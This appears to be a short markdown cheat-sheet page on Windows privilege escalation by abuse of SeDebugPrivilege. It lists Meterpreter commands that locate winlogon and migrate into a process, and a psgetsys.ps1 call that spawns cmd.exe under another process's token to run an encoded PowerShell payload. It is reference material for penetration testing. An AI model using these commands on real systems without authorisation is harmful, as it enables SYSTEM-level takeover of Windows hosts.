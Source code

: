 ```yaml
---
title: "SeDebugPrivilege"
date: 2024-8-2
tags: ["SeDebugPrivilege", "Windows", "potato", "privesc", "fullpower"]
---
```


### Tools

{{< tab set1 tab1 active >}}Metasploit{{< /tab >}}
{{< tab set1 tab2 >}}psgetsys.ps1{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Inside meterpreter
ps winlogon
```

```console
# Explorer.exe is a good candidate
migrate <PID>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Import module
. .\psgetsys.ps1
```

```console
ImpersonateFromParentPid -ppid <PID> -command "c:\windows\system32\cmd.exe" -cmdargs "/c <POWERSHELL_3_BASE64>"
```

<small>*Ref: [psgetsys](https://github.com/decoder-it/psgetsystem)*</small>

{{< /tabcontent >}}
